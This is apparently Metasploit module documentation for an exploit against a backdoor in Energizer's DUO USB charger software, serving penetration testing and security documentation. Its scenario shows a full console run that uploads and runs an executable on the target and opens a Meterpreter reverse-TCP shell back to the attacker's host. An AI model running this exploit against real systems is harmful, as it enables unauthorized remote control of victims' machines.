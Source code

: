 ## Vulnerable Application

More information can be found on the
[Rapid7 Blog](https://blog.rapid7.com/2010/03/08/locate-and-exploit-the-energizer-trojan).
Energizer's "DUO" USB Battery Charger included a backdoor which listens on
port 7777.

The software can be downloaded from the
[Wayback Machine](http://web.archive.org/web/20080722134654/www.energizer.com/usbcharger/language/english/download.aspx).

## Verification Steps

1. Install the vulnerable software
2. Start msfconsole
3. Do: `use exploit/windows/backdoor/energizer_duo_payload`
4. Do: `set rhost`
5. Do: `set payload`
6. Do: `exploit`

## Scenarios

A run against the backdoor

```
  msf > use exploit/windows/backdoor/energizer_duo_payload
  msf exploit(energizer_duo_payload) > set RHOST 192.168.0.132
  msf exploit(energizer_duo_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
  msf exploit(energizer_duo_payload) > set LHOST 192.168.0.228
  msf exploit(energizer_duo_payload) > exploit

  [*] Started reverse handler on 192.168.0.228:4444
  [*] Trying to upload C:\NTL0ZTL4DhVL.exe...
  [*] Trying to execute C:\NTL0ZTL4DhVL.exe...
  [*] Sending stage (747008 bytes)
  [*] Meterpreter session 1 opened (192.168.0.228:4444 -> 192.168.0.132:1200)

  meterpreter > getuid
  Server username: XPDEV\Developer
```
